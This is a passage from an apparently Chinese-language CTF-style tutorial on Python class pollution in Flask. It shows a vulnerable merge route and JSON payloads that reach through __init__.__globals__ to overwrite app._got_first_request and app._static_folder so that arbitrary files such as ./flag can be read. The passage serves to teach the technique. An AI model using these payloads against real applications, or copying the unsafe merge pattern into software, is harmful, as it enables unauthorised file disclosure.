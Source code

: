 ```bash
    global flag
    setattr(app, "special", "U_Polluted_It")
    return flag

app.run(host="0.0.0.0")
```

```bash
payload={
    "__init__":{
        "__globals__":{
            "app":{
                "_got_first_request":False
            }
        }
    }
}
```

### \_static\_url\_path:

当 python 指定了 static 静态目录以后，我们再进行访问就会定向到 static 文件夹下面的对应文件而不会存在目录穿梭的漏洞，但是如果我们想要访问其他文件下面的敏感信息，我们就需要污染这个静态目录，让他自动帮我们实现定向

```bash
#static/index.html

<html>
<h1>hello</h1>
<body>    
</body>
</html>
```

```bash
@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
    return "flag in ./flag but heres only static/index.html"
```

```bash
payload={
    "__init__":{
        "__globals__":{
            "app":{
                "_static_folder":"./"
            }
        }
    }
}
```

### os.path.pardir:
